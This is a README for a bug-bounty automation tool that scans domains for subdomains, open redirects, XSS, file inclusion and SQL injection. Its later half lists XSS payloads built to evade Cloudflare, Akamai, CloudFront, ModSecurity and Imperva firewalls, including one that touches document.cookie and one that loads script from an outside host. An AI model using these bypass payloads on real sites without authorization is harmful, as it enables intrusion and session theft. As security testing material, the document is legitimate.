 Bug bounty automatization code to search for: 𝐚𝐥𝐢𝐯𝐞 𝐬𝐮𝐛𝐝𝐨𝐦𝐚𝐢𝐧𝐬, 𝐎𝐩𝐞𝐧𝐫𝐞𝐝𝐢𝐫𝐞𝐜𝐭, 𝐇𝐨𝐬𝐭 𝐇𝐞𝐚𝐝𝐞𝐫 𝐈𝐧𝐞𝐜𝐭𝐢𝐨𝐧, 𝐂𝐨𝐫𝐬 𝐄𝐱𝐩𝐥𝐨𝐢𝐭𝐬, 𝐩𝐚𝐫𝐚𝐦𝐞𝐭𝐞𝐫𝐬 𝐨𝐧 𝐚𝐥𝐥 𝐬𝐮𝐛𝐝𝐨𝐦𝐚𝐢𝐧𝐬, 𝐂𝐫𝐨𝐬𝐬 𝐒𝐢𝐭𝐞 𝐒𝐜𝐫𝐢𝐩𝐭𝐢𝐧𝐠, 𝐑𝐞𝐦𝐨𝐭𝐞 𝐅𝐢𝐥𝐞 𝐈𝐧𝐜𝐥𝐮𝐬𝐢𝐨𝐧, 𝐋𝐨𝐜𝐚𝐥 𝐅𝐢𝐥𝐞 𝐈𝐧𝐜𝐥𝐮𝐬𝐢𝐨𝐧, 𝐒𝐐𝐋 𝐈𝐧𝐣𝐞𝐜𝐭𝐢𝐨𝐧 (𝐌𝐚𝐧𝐲 𝐦𝐨𝐫𝐞 𝐬𝐨𝐨𝐧)

# INSTALLATION

```bash

git clone https://github.com/Anhedoniczz/ReconZ

cd Reconz

chmod +x *.sh
chmod +x Resources/*.sh
./installer.sh

```
# USAGE 

```
usage: ./recon.sh -u domain                     
```


# EXAMPLE
```
./recon.sh -u example.com
```


# FOR ADVANCED XSS 
The tool uses a basic XSS payload to exploit the websites. If you want to do something more advanced, like bypass waf, or use any other payload, you can change line 58.
Some payloads to bypass specific wafs: 


# Paylaods to bypass Cloudflare waf 
```
<svg/onload=window["al"+"ert"]1337>

<Img Src=OnXSS OnError=confirm(1337)>

<Svg Only=1 OnLoad=confirm(document.domain)>

<svg onload=alert&#0000000040document.cookie)>

<sVG/oNLY%3d1/**/On+ONloaD%3dco\u006efirm%26%23x28%3b%26%23x29%3b>

%3CSVG/oNlY=1%20ONlOAD=confirm(document.domain)%3E

```

# Paylaods to bypass Akamai waf 
```
';k='e'%0Atop['al'+k+'rt'](1)//

'"><A HRef=\" AutoFocus OnFocus=top/**/?.['ale'%2B'rt'](1)>

```

# Paylaods to bypass Cloudfront waf 
```
">'><details/open/ontoggle=confirm('XSS')>

6'%22()%26%25%22%3E%3Csvg/onload=prompt(1)%3E/

';window/*aabb*/['al'%2b'ert'](document./*aabb*/location);//

">%0D%0A%0D%0A<x '="foo"><x foo='><img src=x onerror=javascript:alert(cloudfrontbypass)//'>

```

# Paylaods to bypass MOD SECURITY waf 
```
<svg onload='new Function["Y000!"].find(al\u0065rt)'>
```

# Paylaods to bypass Imperva waf 
```
<Img Src=//X55.is OnLoad%0C=import(Src)>

<sVg OnPointerEnter="location=javas+cript:ale+rt%2+81%2+9;//</div">
```

XSS Payloads are from Lostsec Channel <3
You can check the waf type using wappalyzer and replace xss payloads based on that.

Also feel free to change SQLI payloads in ErrorSQLPayloads.txt, just add the list of your choice and it will work perfectly fine.


Creds to authors of used tools:

https://github.com/gotr00t0day

https://github.com/projectdiscovery/

https://github.com/felipemelchior

https://github.com/s0md3v/Corsy

https://github.com/lc/

https://github.com/tomnomnom/

https://github.com/rix4uni
